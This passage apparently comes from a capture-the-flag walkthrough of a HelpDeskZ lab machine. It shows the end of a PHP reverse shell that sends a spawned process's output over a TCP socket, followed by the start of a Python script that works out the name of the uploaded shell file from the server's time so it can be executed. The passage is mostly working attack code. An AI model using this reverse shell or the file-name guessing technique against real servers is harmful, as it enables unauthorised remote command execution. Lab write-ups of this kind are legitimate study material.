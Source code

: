       	// If we can read from the process's STDOUT
      	// send data down tcp connection
      	if (in_array($pipes[1], $read_a)) {
      		if ($debug) printit("STDOUT READ");
      		$input = fread($pipes[1], $chunk_size);
      		if ($debug) printit("STDOUT: $input");
      		fwrite($sock, $input);
      	}

      	// If we can read from the process's STDERR
      	// send data down tcp connection
      	if (in_array($pipes[2], $read_a)) {
      		if ($debug) printit("STDERR READ");
      		$input = fread($pipes[2], $chunk_size);
      		if ($debug) printit("STDERR: $input");
      		fwrite($sock, $input);
      	}
      }

      fclose($sock);
      fclose($pipes[0]);
      fclose($pipes[1]);
      fclose($pipes[2]);
      proc_close($process);

      // Like print, but does nothing if we've daemonised ourself
      // (I can't figure out how to redirect STDOUT like a proper daemon)
      function printit ($string) {
      	if (!$daemon) {
      		print "$string\n";
      	}
      }

      ?> 
      ```  

2. <span class="helpmach">The python code</span> I used to check the names of the files so that I can execute the php code   

      * The libraries needed to be imported
        ```python
        import hashlib
        import time
        import sys
        import requests
        import calendar
        ```  
      * The path to the files (Can be found in the source code of helpdeskz on github )  
        ```python
        helpdeskzBaseUrl = "http://10.10.10.121/support/uploads/tickets/" # change this
        ```  

      * The file of the php code that I uploaded on the website plus a request to the server so that we can take the time format and fix it (as mentioned before we can change the time zone on the website itself instead)
        ```python
        fileName = "innocent_file.php" # Your reverse shell
        response = requests.head('http://10.10.10.121') # Change this
        serverTime=response.headers['Date'] # getting the server time
        timeFormat="%a, %d %b %Y %H:%M:%S %Z"
        currentTime = int (calendar.timegm(time.strptime(serverTime,timeFormat)))
        ```  
